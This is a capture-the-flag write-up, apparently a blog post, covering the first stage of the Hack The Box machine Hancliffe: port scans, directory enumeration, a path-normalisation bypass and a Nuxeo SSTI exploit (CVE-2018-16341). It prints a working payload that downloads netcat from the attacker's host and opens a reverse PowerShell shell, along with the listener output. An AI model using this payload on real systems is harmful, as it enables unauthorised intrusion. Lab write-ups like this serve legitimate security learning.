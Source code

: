 ```yaml
---
title:     "Hack The Box - Hancliff"
tags: [windows,hard,nuxeo,ssti,path normalization,unified remote,cve,firefox,binex,pwn,eggunter]
categories: HackTheBox
---
```

[![00_info_card](/img/hancliff/00_info_card.png)](/img/hancliff/00_info_card.png)

Hancliffe is a hard rated machine on HackTheBox created by [Revolt](https://www.hackthebox.eu/home/users/profile/189435). For the user part we will abuse a path normalisation vulnerability and a CVE in nuxeo to achieve RCE and a foothold on the machine. On the machine the running `Unified Remote 3` version has another know vulnerability which gives us a shell as clara. For the root part we will find credentials for a password manager in clara's firefox data. This let's us login via PSRemote as the development user, who has access to a directory with an application running as administrator. This application has a buffer overflow vulnerability which we can abuse to achieve a reverse shell as administrator on the machine.

# User

## Nmap

As usual we start our enumeration of with a nmap scan against all ports followed by a script and version detection scan against the open ones to get an initial overview of the attack surface.

`All ports`
```
$ sudo nmap -p- -T4 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:43 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
8000/tcp open  http-alt
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 290.27 seconds
```

`Scrip and version`
```
$ sudo nmap -p80,8000,9999 -sC -sV 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:49 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.21.0
8000/tcp open  http    nginx 1.21.0
|_http-title: HashPass | Open Source Stateless Password Manager
|_http-server-header: nginx/1.21.0
9999/tcp open  abyss?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBPr
ogNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|     Welcome Brankas Application.
|     Username: Password:
|   NULL:
|     Welcome Brankas Application.
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.92%I=7%D=10/10%Time=61631994%P=x86_64-pc-linux-gnu%r(N
...[snip]...
F:sword:\x20")%r(NotesRPC,31,"Welcome\x20Brankas\x20Application\.\nUserna
SF:me:\x20Password:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.03 seconds
```

## Nuxeo

From the open ports the web ports seem promising so we start there. Going over to port 80 we see the default nginx hosting page.

[![01_nginx_home](/img/hancliff/01_nginx_home.png)](/img/hancliff/01_nginx_home.png)

On port 8000 there is an installation of a password manager running which doesn't seem of much use just yet.

[![02_hashpass_home](/img/hancliff/02_hashpass_home.png)](/img/hancliff/02_hashpass_home.png)

Running a gobuster scan on the application on port 80 we can identify a maintenance directory which get's redirected to `/nuxeo/Maintenance/`.

```
$ gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://hancliffe.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hancliffe.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/10 17:28:57 Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 612]
/maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
/con                  (Status: 500) [Size: 494]
/nul                  (Status: 500) [Size: 494]
```

Looking for recent vulnerabilities in nuxeo we find [CVE-2018-16341](https://github.com/mpgn/CVE-2018-16341). Going over to `/maintenance` it just displays a `we'll be back soon` page.

[![03_nginx_maintenance](/img/hancliff/03_nginx_maintenance.png)](/img/hancliff/03_nginx_maintenance.png)

The application does howerver perform a dangerous path normalisation which let's us access the directory one path up leading to access to the `login.jsp` page mentioned in the PoC exploit of the CVE. This page also displays the running version of nuxeo which seems to be promising for the vulnerability to be present.

[![04_nuxeo_login](/img/hancliff/04_nuxeo_login.png)](/img/hancliff/04_nuxeo_login.png)

Testing for the SSTI with a simple payload we can see that our code gets evaluated, confirming our suspicion.

[![06_nuxeo_ssti_poc](/img/hancliff/06_nuxeo_ssti_poc.png)](/img/hancliff/06_nuxeo_ssti_poc.png)

Following the PoC of the exploit we can build a payload adding an additional parameter in the `exec` part. This let's us move our complete payload to the end of the request.

```
/maintenance/..;/login.jsp/pw${''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(param.x)}.xhtml?x=powershell.exe+iwr+http://10.10.14.74/nc64.exe+-o+C:/windows/temp/c.exe;C:/windows/temp/c.exe+-e+powershell+10.10.14.74+7575
```

We start a python webserver to host our netcat binary and listen on the port we want to recieve the reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we can send the request in burp, url encoding the whole SSTI part of the payload to safely send bad characters.

[![07_nuxeo_burp_rev](/img/hancliff/07_nuxeo_burp_rev.png)](/img/hancliff/07_nuxeo_burp_rev.png)

We get a hit on our web server for the `nc64.exe` binary and almost instantly after a reverse shell on our listener as `svc_account`

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.247 - - [10/Oct/2021 19:49:06] "GET /nc64.exe HTTP/1.1" 200 -
10.129.95.247 - - [10/Oct/2021 19:50:10] "GET /nc64.exe HTTP/1.1" 200 -
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:49762.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Nuxeo > whoami
hancliffe\svc_account
```

## Unified Remote 3

Looking for unusual installed programs we find `Unified Remote 3`.

```
PS C:\Nuxeo > ls '\Program Files (x86)\'

    Directory: C:\Program Files (x86)


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/3/2021   7:11 AM                Common Files
d-----         10/3/2021  11:08 PM                Internet Explorer
d-----          6/3/2021   8:09 PM                Microsoft
d-----         12/7/2019   6:48 AM                Microsoft.NET
d-----         6/26/2021  10:15 PM                Mozilla Maintenance Service
d-----         6/12/2021   2:51 AM                MSBuild
d-----         6/12/2021   2:51 AM                Reference Assemblies
d-----         6/12/2021  12:21 AM                Unified Remote 3
d-----          4/9/2021   6:48 AM                Windows Defender
d-----         7/18/2021  12:20 AM                Windows Mail
d-----         12/7/2019   6:44 AM                Windows NT
d-----          4/9/2021   6:48 AM                Windows Photo Viewer
d-----         12/7/2019   1:25 AM                WindowsPowerShell

```
